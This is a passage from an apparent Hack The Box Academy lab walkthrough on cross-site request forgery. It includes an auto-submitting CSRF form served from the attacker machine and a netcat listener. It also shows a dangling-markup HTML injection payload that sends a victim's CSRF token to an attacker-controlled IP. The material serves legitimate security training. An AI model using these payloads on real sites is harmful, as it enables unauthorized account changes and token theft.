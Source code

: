 ```html
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.
```shell-session
alakin2504@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

# Cross-Site Request Forgery (POST-based)
Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

![image](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
[!bash!]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.
